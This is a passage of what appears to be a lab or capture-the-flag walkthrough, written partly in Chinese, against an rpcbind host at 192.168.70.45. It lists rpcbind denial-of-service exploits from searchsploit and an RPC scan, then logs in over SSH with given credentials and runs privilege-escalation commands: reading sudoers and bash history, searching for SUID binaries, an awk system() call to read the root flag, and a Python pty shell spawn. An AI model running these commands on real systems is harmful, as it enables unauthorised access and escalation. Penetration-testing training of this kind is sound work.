 ```bash
run

```

拒绝服务攻击

```bash
┌──(root㉿kali)-[~/Desktop/learn/2]
└─# searchsploit rpcbind
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
rpcbind - CALLIT procedure UDP Crash (PoC)                                                                     | linux/dos/26887.rb
RPCBind / libtirpc - Denial of Service                                                                         | linux/dos/41974.rb
Wietse Venema Rpcbind Replacement 2.1 - Denial of Service                                                      | unix/dos/20376.txt
```



```bash
[+] 192.168.70.45:111     - SunRPC Programs for 192.168.70.45
=================================

 Name     Number  Version  Port   Protocol
 ----     ------  -------  ----   --------
 rpcbind  100000  4        111    tcp
 rpcbind  100000  3        111    tcp
 rpcbind  100000  2        111    tcp
 rpcbind  100000  4        111    udp
 rpcbind  100000  3        111    udp
 rpcbind  100000  2        111    udp
 status   100024  1        53381  udp
 status   100024  1        36907  tcp
```

## 3.ssh

> ted/ted123#@!

```bash
ssh ted@192.168.70.45
ted123#@!

id
ls -la
cat .bash_history
find / -perm -u=s -type f 2>/dev/null
cat /etc/sudoers
awk 'BEGIN {system("cat /root/flag.txt")}'
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'

whoami
cd /root
ls
cat /root/flag.txt
```
